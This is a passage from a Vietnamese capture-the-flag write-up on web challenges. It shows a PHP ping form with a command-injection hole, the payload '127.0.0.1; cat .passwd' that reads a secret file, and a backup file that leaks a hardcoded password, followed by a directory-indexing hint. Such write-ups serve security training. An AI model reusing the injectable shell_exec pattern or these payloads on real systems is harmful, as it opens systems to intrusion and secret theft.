 ```php
<?php 
$flag = "".file_get_contents(".passwd")."";
if(isset($_POST["ip"]) && !empty($_POST["ip"])){
        $response = shell_exec("timeout 5 bash -c 'ping -c 3 ".$_POST["ip"]."'");
        echo $response;
}
?>
- Thì flag nằm trong file .passwd chỉ cần đọc file đó lên là thành công.
payload: 127.0.0.1; cat .passwd
```
![Screenshot 2022-04-12 180948](https://i.imgur.com/xLNP8x9.png)

## 7. Backup file
- Đề bài yêu cầu cần tìm được file backup và thử thì tồn tại file index.php.
- Thường thì extension file backup sẽ là  .BAK, .TMP, .GHO , ~
- Thử lần lượt thì ~ là chuẩn và đã tải được file index.php về.
- Bây giờ chỉ cần mở lên rồi đọc password là thành công

```php
$username="ch11";
$password="OCCY9AcNm1tj";


echo '
      <html>
      <body>
	<h1>Authentication v 0.00</h1>
';

if ($_POST["username"]!="" && $_POST["password"]!=""){
    if ($_POST["username"]==$user && $_POST["password"]==$password)
    {
      print("<h2>Welcome back {$row['username']} !</h2>");
      print("<h3>Your informations :</h3><p>- username : $row[username]</p><br />");
      print("To validate the challenge use this password</b>");
    } else {
      print("<h3>Error : no such user/password</h2><br />");

    }
}

echo '
	<form action="" method="post">
	  Login&nbsp;<br/>
	  <input type="text" name="username" /><br/><br/>
	  Password&nbsp;<br/>
	  <input type="password" name="password" /><br/><br/>
	  <br/><br/>
	  <input type="submit" value="connect" /><br/><br/>
	</form>
      </body>
      </html>
';

?> 

```
## 8. HTTP - Directory indexing
- Xem source code thì thấy có directory 
```
<!-- include("admin/pass.html") -->
```